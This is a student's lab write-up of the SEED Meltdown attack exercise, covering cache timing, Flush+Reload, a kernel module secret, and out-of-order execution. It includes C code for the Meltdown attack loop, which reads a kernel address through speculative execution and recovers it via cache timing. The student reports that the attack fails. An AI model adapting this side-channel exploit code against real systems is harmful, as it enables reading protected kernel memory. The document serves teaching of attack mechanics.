## Task 1: Reading from Cache versus from Memory

command:

```spreadsheet
[06/03/20]seed@VM:.../Meltdown_Attack$ gcc -march=native CacheTime.c -o CacheTime
[06/03/20]seed@VM:.../Meltdown_Attack$ ./CacheTime
```



Is the access of array[3\*4096] and array[7*4096] faster than that of the other elements?

>  Yes

find a threshold that can be used to distinguish these two types of memory access




## Task 2: Using Cache as a Side Channel

Since no other block in task 1 takes less than 60 cycles, I think 60 would be a good threshold.

```spreadsheet
[06/03/20]seed@VM:~/Meltdown_Attack$ gcc -march=native -o FlushReload FlushReload.c
[06/03/20]seed@VM:~/Meltdown_Attack$ ./FlushReload
```



Run the program for at least 20 times, and count how many times you will get the secret correctly.

> I’ve run the program for 20 times, and all have right secret but have 3 times without getting the secret.
>
> I think it might be because that cached block would take more than 80 cycles, so I set the threshold as 100.
> After setting a looser bound, I have the right secret all the time.


## Task 3: Place Secret Data in Kernel Space

```shell
$ make
$ sudo insmod MeltdownKernel.ko
$ dmesg | grep secret
```





Because of something unknown the command `dmesg | grep ’secret data address’` doesn't work, but I can get the address using the command `dmesg`.



> but the command `dmesg | grep secret` works

## Task 4: Access Kernel Memory from User Space

Use the address obtained from the previous task to write a test program.

```c
#include<stdio.h>

int main(){
	printf("I have reached Line 0.\n");
	char *kernel_data_addr = (char*)0xf885b000;
	printf("I have reached Line 1.\n");
	char kernel_data = *kernel_data_addr;
	printf("I have reached Line 2.\n");
	return 0;
}
```




Will the program succeed in Line 2? Can the program execute Line 2?

> The program would not reach Line 2. Because a process in user space cannot access kernel buffer.


## Task 5: Handle Error/Exceptions in C

Use the value that we got from task 3 to rewrite the address of `kernel_data_addr`  in file `ExceptionHandling.c`.



Please run this code, and describe your observations.

> Even though there is an exception in the program. The program could still continue to execute.


## Task 6: Out-of-Order Execution by CPU

```spreadsheet
[06/04/20]seed@VM:~/Meltdown_Attack$ gcc -march=native -o MeltdownExperiment MeltdownExperiment.c
[06/04/20]seed@VM:~/Meltdown_Attack$ ./MeltdownExperiment
```



In particular, please provide an evidence to show that Line 2 is actually executed.

> Even we are not allowed to access array[7 * 4096 +DELTA] , we know that the program tried to access it. Therefore we can know a secret 7.


## Task 7: The Basic Meltdown Attack

### Task 7.1: A Naive Approach

Simply replace the `array[7 * 4096 + DELTA] += 1;`  with `array[kernel_data * 4096 + DELTA] += 1;`


### Task 7.2: Improve the Attack by Getting the Secret Data Cached

Add the following code to get our secret data cached before the FLUSH-RELOAD attack:

```c
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
	perror("open");
	return -1;
}
int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
```


> I still failed the attack.


### Task 7.3: Using Assembly Code to Trigger Meltdown

Use the value that we got from task 3 to rewrite the parameter of `meltdown_asm` .

```spreadsheet
[06/04/20]seed@VM:~/Meltdown_Attack$ gcc -march=native -o task73 task73.c
[06/04/20]seed@VM:~/Meltdown_Attack$ ./task73
```



> Somehow, it still fails to steal the actual secret value. Even though I tried many times and modified the loop number.


## Task 8: Make the Attack More Practical

> I ran the program `MeltdownAttack` but still failed.




> I rewrite the code and save it as `Final.c`, it can output  8 results but the right word still do not appear.

```c
for (int k = 0; k < 8; k++)
{
    memset(scores, 0, sizeof(scores));
    flushSideChannel();
    // Retry 1000 times on the same address.
    for (i = 0; i < 1000; i++)
    {
        ret = pread(fd, NULL, 0, 0);
        if (ret < 0)
        {
            perror("pread");
            break;
        }
        // Flush the probing array
        for (j = 0; j < 256; j++)
            _mm_clflush(&array[j * 4096 + DELTA]);
        if (sigsetjmp(jbuf, 1) == 0)
        {
            meltdown_asm(0xf881c000 + k);
        }
        reloadSideChannelImproved();
    }
    // Find the index with the highest score.
    int max = 0;
    for (i = 0; i < 256; i++)
    {
        if (scores[max] < scores[i])
            max = i;
    }
    printf("The secret value is %d %c\n", max, max);
    printf("The number of hits is %d\n", scores[max]);
}
```




Now that the right result cannot be got, I run the `CacheTime` again to check, but I find that the access of array[0\*4096] is even faster than array[3\*4096] and array[7*4096] sometimes, so in the task 7 & 8 the secret value is always 0. 

